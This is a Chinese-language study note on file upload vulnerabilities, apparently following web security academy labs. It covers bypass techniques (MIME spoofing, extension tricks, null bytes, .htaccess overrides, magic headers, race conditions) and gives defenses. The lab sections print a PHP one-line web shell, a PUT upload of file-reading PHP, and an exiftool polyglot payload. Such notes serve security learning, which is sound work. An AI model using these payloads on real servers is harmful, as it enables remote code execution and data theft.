

## File upload vulnerabilities

文件上传漏洞是指Web服务器允许用户将文件上传到其文件系统，而没有充分验证其**名称，类型，内容或大小**等内容，造成远程代码执行


## 文件上传漏洞危害

**文件类型未正确验证**，并且服务器配置允许将某些类型的文件（例如 `.php` 和 `.jsp`）作为代码执行。

**文件名未正确验证**，则可能允许攻击者仅通过上传同名文件来覆盖关键文件。如果服务器存在目录遍历漏洞，可能会上传到任意目录

**文件大小未正确验证**，未能确保文件大小在预期阈值内还可能启用某种形式的拒绝服务 （DoS） 攻击，攻击者借此填充可用磁盘空间。

## 文件上传的缺陷验证

### **错误的文件类型验证**

网站可能尝试验证文件上传的一种方法是检查此特定于输入的 `Content-Type` 标头是否与预期的 MIME 类型匹配。

例如，如果服务器仅需要图像文件，则它可能只允许 `image/jpeg` 和 `image/png` 等类型。

当服务器隐式信任此 Headers 的值时，可能会出现问题。

如果没有执行进一步的验证来检查文件的内容是否真的与假定的 MIME 类型匹配就会被绕过

### 阻止在用户可访问的目录中执行文件

虽然首先防止上传危险的文件类型显然更好，但第二道防线是阻止服务器执行任何漏网的脚本。

作为预防措施，服务器通常只运行其 **MIME 类型**已明确配置为执行的脚本

### 黑名单的不足

防止用户上传恶意脚本的一个更明显的方法是将潜在危险的文件扩展名（如. php）列入黑名单。

黑名单的做法本身就有缺陷，因为很难显式地阻止可能用于执行代码的每个可能的文件扩展名。

这样的黑名单有时可以通过使用不太知名的替代文件扩展名来绕过，这些文件扩展名可能仍然是可执行的，例如.php5，.shtml等。

#### 覆盖服务器配置

服务器通常不会执行文件，除非它们被配置为这样做。

例如，在Apache服务器执行客户端请求的PHP文件之前，开发人员可能必须将以下指令添加到`/etc/apache 2/apache2.conf`文件中：

```conf
LoadModule php_module /usr/lib/apache2/modules/libphp.so
    AddType application/x-httpd-php .php
```

许多服务器还允许开发人员在各个目录中创建特殊的配置文件，以便覆盖或添加到一个或多个全局设置

例如：apache服务器，将从名为`.htaccess`的文件（如果存在）加载特定于目录的配置。

类似地，在`IIS`服务器，可以使用`web.config`文件进行特定于目录的配置

如果不能上传脚本文件，但可以上传配置文件，通过配置文件可以使在黑名单之外的后缀名映射到可执行的MIME类型（`application/x-httpd-php`）

#### 混淆文件扩展名

假设验证代码区分大小写，无法识别`exploit.pHp`实际上是一个`.php`文件，如果随后将**文件扩展名映射到 MIME 类型**的代码**不**区分大小写，则可以执行`PHP`文件

**一些可能绕过后端的方法：**

​	提供多个扩展：`exploit.php.jpg`

​	拼接符号，一些组件会去除或忽略尾随的空格、点等：`exploit.php。`

​	尝试对点、正斜杠和反斜杠使用 URL 编码（或双 URL 编码）。如果在验证文件扩展名时该值未解码，但稍后在服务器端解码，则还允许上传恶意文件，否则这些文件将被阻止：`exploit%2Ephp`

​	在文件扩展名之前添加分号或 URL 编码的空字节字符。例如，如果验证是用` PHP `或` java `等高级语言编写的，但服务器使用` C/C++` 中的较低级别函数处理文件，这可能会导致文件名末尾的末尾出现差异：`exploit.asp;。JPG` 或 `exploit.asp%00.jpg`。

​	在许多编程语言和系统中，字符串是以空字符` \0 `作为结束标志的。这意味着在处理字符串时，遇到空字符时将停止读取该字符串。

​	尝试使用多字节 Unicode 字符，这些字符在 Unicode 转换或规范化后可能会转换为 **null 字节和点**。如果文件名解析为 UTF-8 字符串，则 `xC0 x2E`、`xC4 xAE` 或 `xC0 xAE` 等序列可以转换为 `x2E`（点），但在路径中使用之前转换为 ASCII 字符。

其他防御措施包括去除或替换危险的扩展名以防止文件被执行。如果此转换不是以**递归方式应用的**，则仍会留下有效文件扩展名的方式定位禁止的字符串。例如，去除 `.php` 会发生什么情况：

```
exploit.p.phphp --> exploit.php
```

### 错误文件内容的验证

与隐式信任请求中指定的`Content-Type`不同，更安全的服务器尝试**验证文件的内容**是否与预期的内容实际匹配。

在图像上传功能的情况下，服务器可能会尝试验证图像的某些固有属性，例如：尺寸。

同样，某些文件类型的魔术头是固定的，例如，`jpeg`文件的头部为：`FF D8 FF`

### 利用文件上传竞争条件

一些网站将文件直接上传到主文件系统，如果文件未通过验证，则再次将其删除。

这种行为在依赖防病毒软件等来检查恶意软件的网站中很常见。

这可能只需要几毫秒，但在文件存在于服务器上的短时间内，攻击者可能仍可以执行它。

例如：一个上传`config.php`，一个访问`config.php`，在存在的时间内执行命令

```
POST /my-account/avatar HTTP/2
GET /files/avatars/config.php HTTP/
```

## 上传无需远程执行的文件

### 存储型XSS

虽然可能无法在服务器上执行脚本，但仍然可以上传脚本进行客户端攻击。

例如，如果可以上传HTML文件或SVG图像，那么可以潜在地使用`<script>`标记来创建存储的XSS

### 文件解析漏洞

如果上传的文件看起来存储和提供都很安全，最后的手段是尝试利用特定于解析或处理不同文件格式的漏洞。

例如，您知道服务器解析基于XML的文件，如`.doc`或`.xls`文件，这可能是`XXE`注入攻击的潜在载体

## PUT 上传文件

值得注意的是，一些Web服务器可能被配置为支持PUT请求。

如果没有适当的防御措施，这可能会提供一种上传恶意文件的替代方法，即使通过Web界面无法使用上传功能。

```http
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/path/to/file'); ?>
```

tip：

可以尝试将`OPTIONS`请求发送到不同的路径，以测试是否支持`PUT`方法

## 如何防止文件上传漏洞

设置白名单，只需要你想允许的扩展名

确保文件名不被目录遍历（`../`）

重命名上传的文件以避免可能导致现有文件被覆盖的冲突

在文件经过完全验证之前，不要将文件上传到服务器的永久文件系统

尽可能使用已建立的框架来预处理文件上传，而不是尝试编写自己的验证机制

## labs

### 不受限制的文件上传

上传一句话木马

```php
<?php echo system($_GET['command']); ?>
```


### Content-Type bypass


仅允许`image/jpeg`和`image/png`文件上传

修改`Content-Type`


### 利用路径遍历上传 webshell

上传之后，文件内容以文本形式被打印出来，说明php代码没有被执行


在`filename`参数尝试`../`，将文件上传到别的目录

依旧是上传到了`avatars/config.php`，说明后端对filename过滤了`../`


URL编码绕过


成功上传到上级目录


### 配置文件 bypass 黑名单

上传`.htaccess`文件，将png文件映射为可执行的MIME类型

```
AddType application/x-httpd-php .png
```


上传`config.png`




### 混淆文件扩展名

使用`%00`进行截断，在验证后缀名时，验证为`.jpg`，但是服务端读到`%00`，就忽略后面字符了


参考：

https://lddp.github.io/2018/11/21/WEB-00%E6%88%AA%E6%96%AD%E4%B8%8E-00%E6%88%AA%E6%96%AD/#toc-heading-1

### 魔术头部 bypass 

上传`php`文件，响应是：`file is not a valid image`


可能有文件内容检测

通过添加`GIF89a`，就是`GIF`的魔术头部


第二种方法：

创建一个多语言` PHP/JPG `文件，该文件基本上是普通图像，但在其元数据中包含` PHP payload`

```sh
exiftool -Comment='<?php echo system($_GET["command"]);' 22.jpg -o polyglot.php
```

### 条件竞争

上传数据包：


竞争数据包：


查看200的响应

